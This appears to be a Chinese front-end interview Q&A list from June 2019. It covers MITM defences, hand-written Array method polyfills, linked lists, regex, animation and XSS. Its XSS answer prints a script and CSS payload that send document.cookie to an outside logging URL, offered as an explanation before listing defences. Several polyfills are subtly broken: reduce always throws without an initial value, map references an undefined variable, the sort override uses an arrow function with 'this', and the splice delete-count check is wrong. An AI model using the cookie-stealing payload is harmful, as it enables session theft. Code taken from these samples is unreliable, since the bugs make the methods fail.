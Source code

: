 ### **2019/06/24 - 2019/06/30** :watch:

---

- 什么是中间人攻击？

  <details>
  <summary>点击</summary>

  所谓中间人攻击，指攻击者与通讯的两端分别建立独立的联系，并交换其所收到的数据，使通讯的两端认为他们正在通过一个私密的连接与对方直接对话，但事实上整个会话都被攻击者完全控制。在中间人攻击中，攻击者可以拦截通讯双方的通话并插入新的内容。

  1. **SSL 剥离**

  SSL 剥离即阻止用户使用 HTTPS 访问网站。由于并不是所有网站都只支持 HTTPS，大部分网站会同时支持 HTTP 和 HTTPS 两种协议。用户在访问网站时，也可能会在地址栏中输入 http:// 的地址，第一次的访问完全是明文的，这就给了攻击者可乘之机。通过攻击 DNS 响应，攻击者可以将自己变成中间人。

  **解决方法：**

  为了防止上面说的这种情况，一种叫做 HSTS 的技术被引入了。HSTS（HTTP Strict Transport Security）是用于强制浏览器使用 HTTPS 访问网站的一种机制。它的基本机制是在服务器返回的响应中，加上一个特殊的头部，指示浏览器对于此网站，强制使用 HTTPS 进行访问

  2. **伪造证书攻击**

  HSTS 只解决了 SSL 剥离的问题，然而即使在全程使用 HTTPS 的情况下，我们仍然有可能被监听。

  假设我们想访问 www.google.com, 但我们的 DNS 服务器被攻击了，指向的 IP 地址并非 Google 的服务器，而是攻击者的 IP。当攻击者的服务器也有合法的证书的时候，我们的浏览器就会认为对方是 Google 服务器，从而信任对方。这样，攻击者便可以监听我们和谷歌之前的所有通信了。

  可以看到攻击者有两步需要操作，第一步是需要攻击 DNS 服务器。第二步是攻击者自己的证书需要被用户信任，这一步对于用户来说是很难控制的，需要证书颁发机构能够控制自己不滥发证书。

  **解决方法：**

  HPKP 技术是为了解决伪造证书攻击而诞生的。

  HPKP（Public Key Pinning Extension for HTTP）在 HSTS 上更进一步，HPKP 直接在返回头中存储服务器的公钥指纹信息，一旦发现指纹和实际接受到的公钥有差异，浏览器就可以认为正在被攻击

  </details>

- 实现数组 sort 方法 ?

  <details>
  <summary>点击</summary>

  设要排序的元素个数是 n：

  - 当 n <= 10 时，采用插入排序
  - 当 n > 10 时，采用三路快速排序

    - 10 < n <= 1000, 采用中位数作为哨兵元素
    - n > 1000, 每隔 200~215 个元素挑出一个元素，放到一个新数组，然后对它排序，找到中间位置的数，以此作为中位数

  ```js
  const sort = (arr, comparefn) => {
    let array = Object(arr);
    let length = array.length >>> 0;
    return InnerArraySort(array, length, comparefn);
  };

  const InnerArraySort = (array, length, comparefn) => {
    // 比较函数未传入
    if (Object.prototype.toString.call(comparefn) !== '[object Function]') {
      comparefn = function(x, y) {
        if (x === y) return 0;
        x = x.toString();
        y = y.toString();
        if (x == y) return 0;
        else return x < y ? -1 : 1;
      };
    }
    // 插入排序
    const insertSort = (arr, start = 0, end) => {
      end = end || arr.length;
      for (let i = start; i < end; i++) {
        let e = arr[i];
        let j;
        for (j = i; j > start && comparefn(arr[j - 1], e) > 0; j--)
          arr[j] = arr[j - 1];
        arr[j] = e;
      }
      return;
    };
    const getThirdIndex = (a, from, to) => {
      let tmpArr = [];
      // 递增量，200~215 之间，因为任何正数和15做与操作，不会超过15，当然是大于0的
      let increment = 200 + ((to - from) & 15);
      let j = 0;
      from += 1;
      to -= 1;
      for (let i = from; i < to; i += increment) {
        tmpArr[j] = [i, a[i]];
        j++;
      }
      // 把临时数组排序，取中间的值，确保哨兵的值接近平均位置
      tmpArr.sort(function(a, b) {
        return comparefn(a[1], b[1]);
      });
      let thirdIndex = tmpArr[tmpArr.length >> 1][0];
      return thirdIndex;
    };

    const _sort = (a, b, c) => {
      let arr = [];
      arr.push(a, b, c);
      insertSort(arr, 0, 3);
      return arr;
    };

    const quickSort = (a, from, to) => {
      //哨兵位置
      let thirdIndex = 0;
      while (true) {
        if (to - from <= 10) {
          // 长度小于10，插入排序
          insertSort(a, from, to);
          return;
        }
        if (to - from > 1000) {
          // 把临时数组排序，取中间的值，确保哨兵的值接近平均位置
          thirdIndex = getThirdIndex(a, from, to);
        } else {
          // 小于1000 直接取中点
          thirdIndex = from + ((to - from) >> 2);
        }
        // 使用插入排序对比起点，哨兵位置，终点，返回数组
        let tmpArr = _sort(a[from], a[thirdIndex], a[to - 1]);
        a[from] = tmpArr[0];
        a[thirdIndex] = tmpArr[1];
        a[to - 1] = tmpArr[2];

        // 现在正式把 thirdIndex 作为哨兵
        let pivot = a[thirdIndex];
        [a[from], a[thirdIndex]] = [a[thirdIndex], a[from]];
        // 正式进入快排
        let lowEnd = from + 1;
        let highStart = to - 1;
        a[thirdIndex] = a[lowEnd];
        a[lowEnd] = pivot;
        // [lowEnd, i)的元素是和pivot相等的
        // [i, highStart) 的元素是需要处理的
        for (let i = lowEnd + 1; i < highStart; i++) {
          let element = a[i];
          let order = comparefn(element, pivot);
          if (order < 0) {
            a[i] = a[lowEnd];
            a[lowEnd] = element;
            lowEnd++;
          } else if (order > 0) {
            do {
              highStart--;
              if (highStart === i) break;
              order = comparefn(a[highStart], pivot);
            } while (order > 0);
            // 现在 a[highStart] <= pivot
            // a[i] > pivot
            // 两者交换
            a[i] = a[highStart];
            a[highStart] = element;
            if (order < 0) {
              // a[i] 和 a[lowEnd] 交换
              element = a[i];
              a[i] = a[lowEnd];
              a[lowEnd] = element;
              lowEnd++;
            }
          }
        }
        // 永远切分大区间
        if (lowEnd - from > to - highStart) {
          // 单独处理小区间
          quickSort(a, highStart, to);
          // 继续切分lowEnd ~ from 这个区间
          to = lowEnd;
        } else if (lowEnd - from <= to - highStart) {
          quickSort(a, from, lowEnd);
          from = highStart;
        }
      }
    };
    quickSort(array, 0, length);
  };

  Array.prototype.sort = comparefn => {
    let array = Object(this);
    let length = array.length >>> 0;
    return InnerArraySort(array, length, comparefn);
  };
  ```

  </details>

- 实现数组 splice 方法 ?

  <details>
  <summary>点击</summary>

  splice 可以说是最受欢迎的数组方法之一，api 灵活，使用方便。现在来梳理一下用法:

  1. splice(position, count) 表示从 position 索引的位置开始，删除 count 个元素

  2. splice(position, 0, ele1, ele2, ...) 表示从 position 索引的元素后面插入一系列的元素

  3. splice(postion, count, ele1, ele2, ...) 表示从 position 索引的位置开始，删除 count 个元素，然后再插入一系列的元素

  4. 返回值为被删除元素组成的数组。

  ```js
  const sliceDeleteElements = (array, startIndex, deleteCount, deleteArr) => {
    for (let i = 0; i < deleteCount; i++) {
      let index = startIndex + i;
      if (index in array) {
        let current = array[index];
        deleteArr[i] = current;
      }
    }
  };

  const movePostElements = (
    array,
    startIndex,
    len,
    deleteCount,
    addElements
  ) => {
    // 如果添加的元素和删除的元素个数相等，相当于元素的替换，数组长度不变，被删除元素后面的元素不需要挪动
    if (deleteCount === addElements.length) return;
    // 如果添加的元素和删除的元素个数不相等，则移动后面的元素
    else if (deleteCount > addElements.length) {
      // 删除的元素比新增的元素多，那么后面的元素整体向前挪动
      // 一共需要挪动 len - startIndex - deleteCount 个元素
      for (let i = startIndex + deleteCount; i < len; i++) {
        let fromIndex = i;
        // 将要挪动到的目标位置
        let toIndex = i - (deleteCount - addElements.length);
        if (fromIndex in array) {
          array[toIndex] = array[fromIndex];
        } else {
          delete array[toIndex];
        }
      }
      // 注意注意！这里我们把后面的元素向前挪，相当于数组长度减小了，需要删除冗余元素
      // 目前长度为 len + addElements - deleteCount
      for (let i = len - 1; i >= len + addElements.length - deleteCount; i--) {
        delete array[i];
      }
    } else if (deleteCount < addElements.length) {
      // 删除的元素比新增的元素少，那么后面的元素整体向后挪动
      // 思考一下: 这里为什么要从后往前遍历？从前往后会产生什么问题？
      for (let i = len - 1; i >= startIndex + deleteCount; i--) {
        let fromIndex = i;
        // 将要挪动到的目标位置
        let toIndex = i + (addElements.length - deleteCount);
        if (fromIndex in array) {
          array[toIndex] = array[fromIndex];
        } else {
          delete array[toIndex];
        }
      }
    }
  };

  const computeStartIndex = (startIndex, len) => {
    // 处理索引负数的情况
    if (startIndex < 0) {
      return startIndex + len > 0 ? startIndex + len : 0;
    }
    return startIndex >= len ? len : startIndex;
  };

  const computeDeleteCount = (startIndex, len, deleteCount, argumentsLen) => {
    // 删除数目没有传，默认删除startIndex及后面所有的
    if (argumentsLen === 1) return len - startIndex;
    // 删除数目过小
    if (deleteCount < 0) return 0;
    // 删除数目过大
    if (deleteCount > len - deleteCount) return len - startIndex;
    return deleteCount;
  };

  Array.prototype.splice = function(startIndex, deleteCount, ...addElements) {
    let argumentsLen = arguments.length;
    let array = Object(this);
    let len = array.length >>> 0;
    let deleteArr = new Array(deleteCount);
    // 处理索引为负数或者超出数组长度的值
    startIndex = computeStartIndex(startIndex, len);
    // 处理索引为过小过大或不存在时的值
    deleteCount = computeDeleteCount(
      startIndex,
      len,
      deleteCount,
      argumentsLen
    );

    // 判断 sealed 对象和 frozen 对象, 即 密封对象 和 冻结对象
    if (Object.isSealed(array) && deleteCount !== addElements.length) {
      throw new TypeError('the object is a sealed object!');
    } else if (
      Object.isFrozen(array) &&
      (deleteCount > 0 || addElements.length > 0)
    ) {
      throw new TypeError('the object is a frozen object!');
    }

    // 拷贝删除的元素，将删除的元素放入deleteArr
    sliceDeleteElements(array, startIndex, deleteCount, deleteArr);
    // 移动删除元素后面的元素
    movePostElements(array, startIndex, len, deleteCount, addElements);

    // 插入新元素
    for (let i = 0; i < addElements.length; i++) {
      array[startIndex + i] = addElements[i];
    }
    // 修改数组长度
    array.length = len - deleteCount + addElements.length;

    return deleteArr;
  };
  ```

  </details>

- 实现数组 filter 方法 ?

  <details>
  <summary>点击</summary>

  ```js
  Array.prototype.filter = function(callbackfn, thisArg) {
    // 处理数组类型异常
    if (this === null || this === undefined) {
      throw new TypeError("Cannot read property 'filter' of null or undefined");
    }
    // 处理回调类型异常
    if (Object.prototype.toString.call(callbackfn) != '[object Function]') {
      throw new TypeError(callbackfn + ' is not a function');
    }
    let O = Object(this);
    let len = O.length >>> 0;
    let resLen = 0;
    let res = [];
    // 判断符合callback为true时，将item赋值进数组
    for (let i = 0; i < len; i++) {
      if (i in O) {
        let element = O[i];
        if (callbackfn.call(thisArg, O[i], i, O)) {
          res[resLen++] = element;
        }
      }
    }
    return res;
  };
  ```

  </details>

- 实现数组 push、pop 方法 ?

  <details>
  <summary>点击</summary>

  ```js
  Array.prototype.push = function(...items) {
    let O = Object(this);
    let len = this.length >>> 0;
    let argCount = items.length >>> 0;
    // 2 ** 53 - 1 为JS能表示的最大正整数
    if (len + argCount > 2 ** 53 - 1) {
      throw new TypeError(
        'The number of array is over the max value restricted!'
      );
    }
    // 最后加一个，然后长度 length + 1
    for (let i = 0; i < argCount; i++) {
      O[len + i] = items[i];
    }
    let newLength = len + argCount;
    O.length = newLength;
    return newLength;
  };

  Array.prototype.pop = function() {
    let O = Object(this);
    let len = this.length >>> 0;
    if (len === 0) {
      O.length = 0;
      return undefined;
    }
    // 使用object的delete删除最后一个，并且length - 1
    len--;
    let value = O[len];
    delete O[len];
    O.length = len;
    return value;
  };
  ```

  </details>

* 实现数组 reduce 方法 ?

  <details>
  <summary>点击</summary>

  ```js
  Array.prototype.reduce = function(callbackfn, initialValue) {
    // 异常处理，和 map 一样
    // 处理数组类型异常
    if (this === null || this === undefined) {
      throw new TypeError("Cannot read property 'reduce' of null or undefined");
    }
    // 处理回调类型异常
    if (Object.prototype.toString.call(callbackfn) != '[object Function]') {
      throw new TypeError(callbackfn + ' is not a function');
    }
    let O = Object(this);
    let len = O.length >>> 0;
    let k = 0;
    let accumulator = initialValue;
    if (accumulator === undefined) {
      for (; k < len; k++) {
        // 查找原型链
        if (k in O) {
          accumulator = O[k];
          k++;
          break;
        }
      }
      // 循环结束还没退出，就表示数组全为空
      throw new Error('Each element of the array is empty');
    }
    for (; k < len; k++) {
      if (k in O) {
        // 注意，核心！
        accumulator = callbackfn.call(undefined, accumulator, O[k], O);
      }
    }
    return accumulator;
  };
  ```

  </details>

* 实现数组 map 方法？

  <details>
  <summary>点击</summary>

  ```js
  Array.prototype.map = function(callback, thisArg) {
    // 处理数组类型异常
    if (this === null || this === undefined) {
      throw new TypeError("Cannot read property 'map' of null or undefined");
    }
    // 处理回调类型异常
    if (Object.prototype.toString.call(callback) != '[object Function]') {
      throw new TypeError(callback + ' is not a function');
    }
    // 先转换为对象
    let obj = Object(this);
    let T = thisArg;
    let len = obj.length >>> 0;
    let arr = new Array(len);
    for (let k = 0; k < len; k++) {
      // in 表示在原型链查找
      // 如果用 hasOwnProperty 是有问题的，它只能找私有属性
      if (k in obj) {
        let kValue = obj[k];
        // 依次传入 this, 当前项，当前索引，整个数组
        let mappedValue = callback.call(T, KValue, k, obj);
        arr[k] = mappedValue;
      }
    }
    return arr;
  };
  ```

  </details>

### **2019/06/17 - 2019/06/23** :watch:

---

- `>>` 和 `>>>` 有什么不一样 ?

  <details>
  <summary>点击</summary>

  `>>>` 是无符号右移，`>>` 是有符号移位

  `>>` 有符号移位：该操作符会将第一个操作数向右移动指定的位数。向右被移出的位被丢弃，拷贝最左侧的位以填充左侧

  ```js
  -9 >> 2;
  // 11111111111111111111111111110111; -> 11111111111111111111111111111101   // -3
  ```

  `>>>` 无符号移位：该操作符会将第一个操作数向右移动指定的位数。向右被移出的位被丢弃，左侧用 0 填充。因为符号位变成了 0，所以结果总是非负的。（即便右移 0 个比特，结果也是非负的。）

  ```js
  9 >>> 2;
  // 00000000000000000000000000001001; ->  00000000000000000000000000000010 // 2
  ```

  </details>

- [给定一个链表，删除链表的倒数第 n 个节点，如何实现?](../../algorithm/21-删除链表的倒数第n个节点.md)

- [在数组中找出三个数，使得它们的和为 N?](../../algorithm/17-数组中找出和为M的N个数.md)

- 如何反转单向链表?

  <details>
  <summary>点击</summary>

  ```js
    /**
    * Definition for singly-linked list.
    * function ListNode(val) {
    *     this.val = val;
    *     this.next = null;
    * }
    */
    /**
    * @param {ListNode} head
    * @return {ListNode}
    */
    var reverseList = function(head) {
        let [prev, curr] = [null, head];
        while (curr) {
            [curr.next, prev, curr] = [prev, curr, curr.next];
        }
        return prev;
    };
  ```

  </details>
- 谈一谈链表和数组的区别?

  <details>
  <summary>点击</summary>

  **数组的定义**：数据是一种线性表数据结构，它用一组连续的内存空间，来存储一组具有相同类型的数据。

  由于数组在内存中是连续存放的，所以通过下标来随机访问数组中的元素效率是非常高的。但与此同时，为了保证连续性，如果想在数组中添加一个元素，需要大量地对数据进行搬移工作。同理想在数组中删除一个元素也是如此。所以我们得出一个结论：**在数组中随机访问的效率很高，但是执行添加和删除时效率低下，平均时间复杂度为 O(n)**。

  **链表的定义**： 是一种物理存储单元上非连续、非顺序的存储结构，数据元素的逻辑顺序是通过链表中的指针链接次序实现的。

  刚才介绍了在数组中添加和删除一个元素的效率是低下的。而链表的存储空间是不连续的，使用链表添加或者删除一个数据，我们并不需要为了保持内存的连续性而对数据进行搬移，所以在链表中添加和删除元素是非常高效的。但万事都有两面性，正因为链表的存储空间是不连续的，想要在链表中访问一个元素时，就无法像数组一样根据首地址和下标，通过寻址公式来计算出对应的节点。而只能通过指针去依次遍历找出相应的节点。所以我们得出一个结论：**在链表中执行添加和删除操作时效率很高，而随机访问的效率很低，平均时间复杂度为 O(n)。**

  </details>

- 正则的贪婪模式和懒惰模式？

  <details>
  <summary>点击</summary>

  正则表达式，表示字符串重复个数元字符，'?,+,*,{}' 默认都会选择贪婪模式，会最大长度匹配字符串，而要切换到懒惰模式，就只是在该元字符，后面加多一个”?” 即可切换到非贪婪模式（懒惰模式）

  ```js
  /\d{3,6}/g // 默认贪婪模式，匹配6个
  /\d{3,6}?/g // 懒惰模式，匹配3个
  ```
  </details>
- `getBoundingClientRect()` 的作用？

  用于获取某个元素相对于视窗的位置集合。集合中有**top**, **right**, **bottom**, **left** 等属性。

### **2019/06/10 - 2019/06/16** :watch:

---

- 为什么 **var** 可以重复声明？

  因为编译器会在判断有已经声明的同名变量时忽略 **var**，然后直接赋值

- **requestAnimationFrame** 实现的动画如何清除？

    <details>
    <summary>点击</summary>

  使用 cancelAnimationFrame，如下：

  ```js
  let animate = requestAnimationFrame(animateFunc);

  cancelAnimationFrame(animate);
  ```

    </details>

- **js** 动画为何推荐用 **requestAnimationFrame** 而不用 **setTimeout** ?

    <details>
    <summary>点击</summary>

  **requestAnimationFrame**，顾名思义就是请求动画帧. 以屏幕刷新频率（一般是每秒 60 帧）更新动画，符合人眼的**视觉停留效应**

  #### 为何不用 **setTimeout** ？

  利用 **seTimeout** 实现的动画在某些低端机上会出现卡顿、抖动的现象。 这种现象的产生有两个原因：

  - **setTimeout 的执行时间并不是确定的**。在 Javascript 中， setTimeout 任务被放进了异步队列中，只有当主线程上的任务执行完以后，才会去检查该队列里的任务是否需要开始执行，因此 setTimeout 的实际执行时间一般要比其设定的时间晚一些。

  - **刷新频率受屏幕分辨率和屏幕尺寸的影响**，因此不同设备的屏幕刷新频率可能会不同，而 setTimeout 只能设置一个固定的时间间隔，这个时间不一定和屏幕的刷新时间相同。

  以上两种情况都会导致 setTimeout 的执行步调和屏幕的刷新步调不一致，从而引起丢帧现象。

  **requestAnimationFrame** 还有以下两个优势：

  - **CPU 节能**：使用 setTimeout 实现的动画，当页面被隐藏或最小化时，setTimeout 仍然在后台执行动画任务，由于此时页面处于不可见或不可用状态，刷新动画是没有意义的，完全是浪费 CPU 资源。而 requestAnimationFrame 则完全不同，当页面处理未激活的状态下，该页面的屏幕刷新任务也会被系统暂停，因此跟着系统步伐走的 requestAnimationFrame 也会停止渲染，当页面被激活时，动画就从上次停留的地方继续执行，有效节省了 CPU 开销。

  - **函数节流**：在高频率事件(resize,scroll 等)中，为了防止在一个刷新间隔内发生多次函数执行，使用 requestAnimationFrame 可保证每个刷新间隔内，函数只被执行一次，这样既能保证流畅性，也能更好的节省函数执行的开销。一个刷新间隔内函数执行多次时没有意义的，因为显示器每 16.7ms 刷新一次，多次绘制并不会在屏幕上体现出来。

    </details>

* 如何获取页面某个元素的背景色 **background-color**?

- 首屏渲染白屏的原因可能有哪些？有什么解决方法

    <details>
    <summary>点击</summary>

    1. 网速过慢

    2. 资源过大。减少代码体积，组件懒加载，路由懒加载，cdn加速，预渲染，开启 gzip 压缩

    3. 渲染页面时需要大量js运算，等待计算完才渲染页面耗费时间长。可以通过 ssr 服务端渲染，或者在js计算过程中用骨架屏先填充页面，优化用户体验。

    </details>

- 为何要控制 **http** 的请求个数？

  因为在 http1.1 中，不同浏览器对同一域名下的 http 请求的最大并发数量有所限制，请求个数过多影响页面展示

- 淘宝 **flexible** 的原理？

### **2019/06/03 - 2019/06/09** :watch:

---

- 缓存策略？

- 为什么要将 **小图标** 转化为 **base64** ?

  <details>
  <summary>点击</summary>

  图片的 base64 编码就是可以将一副图片数据编码成一串字符串，使用该字符串代替图像地址;

  1. 提升性能: 网页上的每一个图片，都是需要消耗一个 http 请求下载而来的, 图片的下载始终都要向服务器发出请求，要是图片的下载不用向服务器发出请求，base64可以随着 HTML 的下载同时下载到本地.减少https请求。

  2. 方便引用: 在多个文件同时使用某些图片时, 可以把图片转为 base64 格式的文件, 把样式放在全局中, 比如common.css, 以后在用的时候就可以直接加类名, 二不需要多层找文件路径, 会提升效率

  </details>

- **webpack** 编译流程是怎样子的？

  初始化阶段，编译阶段，输出文件(chunk)。

- **XSS** 攻击如何防止窃取 **cookie** ?

  <details>
  <summary>点击</summary>

  首先讲讲**XSS** 攻击如何窃取 **cookie**？

  ```html
  <!-- js窃取cookie -->
  <script>
    new Image().src =
      'http://jehiah.com/_sandbox/log.cgi?c=' + encodeURI(document.cookie);
  </script>
  <!-- css窃取cookie -->
  <style>
    .getcookies {
      background-image: url('javascript:new Image().src="http://jehiah.com/_sandbox/log.cgi?c=" + encodeURI(document.cookie);');
    }
  </style>
  <p class="getcookies"></p>
  ```

  防止措施：

  不停地重设 session 的重设；将过期时间设置短一些；监控 referrer 与 userAgent 的值；使用 HttpOnly 禁止脚本读取 Cookie。

  </details>

- XSS 攻击会造成怎样的影响 ?

  <details>
  <summary>点击</summary>

  1、盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号

  2、控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力

  3、盗窃企业重要的具有商业价值的资料

  4、非法转账

  5、强制发送电子邮件

  6、网站挂马

  7、控制受害者机器向其它网站发起攻击

  </details>

- 如何防止网络攻击？

  参考文章： [《前端网络安全》](https://zxpsuper.github.io/advanced_front_end/book/browser/safe.html)

* 网络攻击有哪些？

  参考文章： [《前端网络安全》](https://zxpsuper.github.io/advanced_front_end/book/browser/safe.html)

![](https://raw.githubusercontent.com/zxpsuper/daily-question/master/image/fork_and_star.jpg)
